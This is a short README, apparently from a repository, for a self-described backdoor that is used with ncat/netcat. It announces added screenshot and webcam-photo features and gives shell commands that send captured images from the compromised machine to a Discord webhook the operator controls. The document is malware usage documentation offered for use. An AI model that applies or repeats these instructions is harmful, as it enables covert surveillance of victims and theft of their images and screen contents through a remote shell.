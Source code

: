 THIS BACKDOOR IS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:


[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied

For Webcam:
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied


NOTE:- This is made for --> NCAT/NETCAT
